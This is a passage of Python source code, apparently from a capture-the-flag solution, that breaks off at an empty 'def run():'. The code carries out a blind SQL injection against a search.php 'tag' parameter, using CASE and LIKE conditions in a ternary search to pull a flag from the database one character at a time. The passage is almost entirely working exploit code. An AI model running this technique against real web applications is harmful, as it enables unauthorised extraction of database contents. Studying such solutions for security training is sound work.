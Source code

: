 ``` python
  L = 0
  R = len(char_set) - 1
  prefix = flag + "_" * index
  while L<=R:
    s = (R-L) // 3
    ML = L + s
    MR = L + s * 2
    if s == 0:
      MR = L + 1

    group = [
      char_set[L:ML],
      char_set[ML:MR],
      char_set[MR:R+1]
    ]

    conditions = []
    for i in range(0, 3):
      if len(group[i]) == 0:
        conditions.append("1=2")
        continue
      arr = [f"(content like '{prefix}{chr(92) + c if c == '_' else c}%')" for c in group[i]]
      conditions.append(" or ".join(arr))

    payload = f'''
    (select case
      when ({conditions[0]}) then 1  
      when ({conditions[1]}) then 2  
      when ({conditions[2]}) then 5
      else 10
    end from flag)
    '''

    print(f"For {index} trying", group)

    response = requests.get(f'{host}/search.php?tag={encode(payload)}')
    if not response.ok:
      print('error')
      print(response.text)
      print(payload)
      return False

    data = json.loads(response.text)
    if len(data) == 0:
      return False

    if len(data) == 2:
      R = ML
      if len(group[0]) == 1:
        return group[0]
      
    else:
      if data[0]["name"] == "home1":
        L = ML
        R = MR
        if len(group[1]) == 1:
          return group[1]
      else:
        L = MR
        if len(group[2]) == 1:
          return group[2]

def run():
```